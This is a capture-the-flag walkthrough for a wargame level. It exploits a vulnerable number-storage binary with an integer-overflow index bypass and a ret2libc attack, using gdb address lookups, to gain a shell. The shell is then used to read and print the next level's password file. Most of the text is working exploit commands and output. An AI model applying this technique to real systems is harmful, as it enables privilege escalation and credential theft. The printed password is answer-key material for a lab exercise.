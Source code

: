 # Walkthrough level07

In this binary we don't have function to get the flag.  
We need to get a shell by our own.

With the function `store_number` we can write a number in an index.  
The only restriction on the index is `index % 3 != 0`.  
We can avoid this restriction with int overflow:

```bash
Input command: store
 Number: 42
 Index: 0
 *** ERROR! ***
   This index is reserved for wil!
 *** ERROR! ***
 Failed to do store command
```

To overflow we can use this formula `(2^32 + index) / 4`:

```bash
Input command: store
 Number: 42
 Index: 1073741824
 Completed store command successfully
Input command: read
 Index: 0
 Number at data[0] is 42
 Completed read command successfully
```

Because it's boring to write a lots, we don't use shellcode but [ret2libc](https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/return-to-libc-ret2libc).

We need address of system, `/bin/sh` and offset of eip:

```bash
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) p 0xf7e6aed0
$2 = 4159090384

(gdb) find __libc_start_main,+99999999,"/bin/sh"
0xf7f897ec
(gdb) x/s 0xf7f897ec
0xf7f897ec:      "/bin/sh"
(gdb) p 0xf7f897ec
$3 = 4160264172
```

- address of `system` = 4159090384
- address of `/bin/sh` = 4160264172

Find the offset of eip:

```bash
(gdb) i f
Stack level 0, frame at 0xffffd710:
 eip = 0x8048857 in main; saved eip 0xf7e45513
 Arglist at 0xffffd708, args: 
 Locals at 0xffffd708, Previous frame's sp is 0xffffd710
 Saved registers:
  ebx at 0xffffd6fc, ebp at 0xffffd708, esi at 0xffffd700, edi at 0xffffd704,
  eip at 0xffffd70c

(gdb) x/xw $esp + 0x24
0xffffd544:     0x00000000

(gdb) p (0xffffd70c - 0xffffd544) / 4
$6 = 114
```

Offset of `eip` = 114

`114 % 3 == 0` so we need to overflow: 1073741824 + 114 = 1073741938

```bash
Input command: store
 Number: 4159090384
 Index: 1073741938 ()
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ whoami
level08
$ cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```
